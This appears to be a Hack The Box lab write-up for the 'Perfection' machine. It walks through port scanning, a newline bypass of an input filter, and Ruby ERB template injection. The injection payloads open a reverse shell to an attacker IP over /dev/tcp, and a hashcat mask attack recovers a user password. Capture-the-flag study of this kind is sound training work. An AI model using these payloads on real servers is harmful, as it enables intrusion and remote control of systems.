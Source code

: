 ```yaml
---
title:  HTB - Perfection
date: 2024-02-02 12:17:34 -0400
categories: [hackthebox , Perfection]
tags: [HackTheBox, SSTI, sudo, nmap, hashcat ]
image:
  path: /assets/img/post/perfection/perfection-card.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Perfection.
---
```


## Box Info

| Name                  | Perfection       | 
| :-------------------- | ---------------: |
| Release Date          | 02 Mar, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## Enumeration

```bash
nmap -p- --open --min-rate 5000 -n -sS -vvv -Pn 10.10.11.253 -oG allPorts
nmap -sCV -p 22,80 10.10.11.253 -oN targeted
```

![Image](/assets/img/post/perfection/0.png)

#### Resolution DNS

```bash
echo "10.10.11.253 perfection.htb" | sudo tee -a /etc/hosts
```

#### Technology

```text
whatweb http://perfection.htb
```

![Image](/assets/img/post/perfection/1.png)

## Web

![Image](/assets/img/post/perfection/2.png)

The web is powered by WEBrick version 1.7.0, `WEBrick is a Ruby library providing simple HTTP web servers`{: filepath}

![Image](/assets/img/post/perfection/3.png)

Well, if you intercept the request u can see something like this `category1=literature` but if u try to this `category1=$` get a redirect with a text "Malicious text blocked".

We can do  with ffuf an scan for get a list of blocked characters.

```bash
ffuf -u http://10.10.11.253/weighted-grade-calc -d 'category1=FUZZ&grade1=90&weight1=30&category2=poop&grade2=100&weight2=50&category3=poop&grade3=100&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0' -w /opt/SecLists/Fuzzing/alphanum-case-extra.txt -mr Malicious
```

But what happens if a url encode the input?

```text
category1= poop%0aFUZZ &grade1=90&weight1=30&category2=poop&grade2=100&weight2=50&category3=poop&grade3=100&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0' -w /opt/SecLists/Fuzzing/alphanum-case-extra.txt -mr Malicious
```

`%0a`— represents a newline character, used to `bypass input validation`.

The first thing I think is that there may be an SSTI.
We go look to in payloadallthethings if there is something for ruby

[PaylaodsAllTheThings-Ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby---basic-injections)

![Image](/assets/img/post/perfection/pay.png)

`hURL` _to encode and decode payloads showcases the manipulation of data to exploit web application vulnerabilities. The payload crafted for the Weighted Grade Calculator application is designed to execute a reverse shell command, taking advantage of any potential server-side code execution vulnerabilities_

```shell
hURL -B "bash -i >& /dev/tcp/10.10.14.78/7777 0>&1" (base64)
```

```shell
hURL -U "{_stringbase64_}" (URLencoded)
```

![Image](/assets/img/post/perfection/5.png)

#### Payload
```text
category1=poop%0a<%25=system("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC40OC83Nzc3IDA%2BJjE%3D|+base64+-d+|+bash");%25>1
```

![Image](/assets/img/post/perfection/6.png)

Or use the payload `<%= IO.popen('id').readlines() %>` and urlencoded.

![Image](/assets/img/post/perfection/IO.png)

[Hacktricks-SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)

```bash
<%= IO.popen('bash -i >& /dev/tcp/10.10.14.78/7777 0>&1').readlines() %> 
```

![Image](/assets/img/post/perfection/7.png)

Enumerating found the file .db and got the credentials.

_A string is any sequence of 4 or more printable characters .db_

![Image](/assets/img/post/perfection/8.png)

## Privilege Escalation

![Image](/assets/img/post/perfection/9.png)

### Hashcat

```bash
hashcat -m 1400 hash.txt -a 3 "susan_nasus_?d?d?d?d?d?d?d?d"
```

![Image](/assets/img/post/perfection/10.png)

![Image](/assets/img/post/perfection/11.png)

```text
susan_nasus_413759210
```

![Image](/assets/img/post/perfection/12.png)

Root